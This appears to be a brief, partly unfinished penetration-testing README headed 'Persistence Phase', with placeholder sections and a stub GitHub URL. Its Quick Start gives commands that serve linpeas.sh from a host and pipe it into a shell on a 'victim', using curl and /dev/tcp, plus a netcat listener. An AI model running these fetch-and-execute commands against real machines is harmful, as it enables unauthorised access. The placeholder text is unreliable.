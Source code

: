 # Persistence Phase

Definition

Available parts:


## Quick Start


```bash
# From github
curl -L github....file..bblablal
```




```bash
# Local network
sudo python -m SimpleHTTPServer 80 #Host
curl 10.10.10.10/linpeas.sh | sh #Victim
# Without curl
sudo nc -q 5 -lvnp 80 < linpeas.sh #Host
cat < /dev/tcp/10.10.10.10/80 | sh #Victim
```


## Results

Results stored to output/ directory.
